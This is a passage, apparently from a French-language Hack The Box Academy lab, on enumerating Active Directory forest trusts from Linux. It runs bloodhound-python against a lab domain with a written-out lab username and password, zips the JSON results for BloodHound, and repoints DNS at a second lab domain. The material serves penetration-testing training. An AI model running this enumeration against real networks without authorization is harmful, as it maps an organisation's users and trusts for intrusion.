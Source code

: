 Une fois cela en place, nous pouvons exécuter l'outil sur le domaine cible comme suit :

#### Exécution de bloodhound-python contre INLANEFREIGHT.LOCAL

  Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux

```
dsgsec@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>

```

Nous pouvons compresser les fichiers zip résultants pour télécharger un seul fichier zip directement dans l'interface graphique de BloodHound.

#### Compresser le fichier avec zip -r

  Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux

```
dsgsec@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)

```

Nous répéterons le même processus, en remplissant cette fois les détails du `FREIGHTLOGISTICS.LOCAL`domaine.

#### Ajout d'informations FREIGHTLOGISTICS.LOCAL à /etc/resolv.conf

  Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux

```
dsgsec@htb[/htb]$ cat /etc/resolv.conf

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238

```
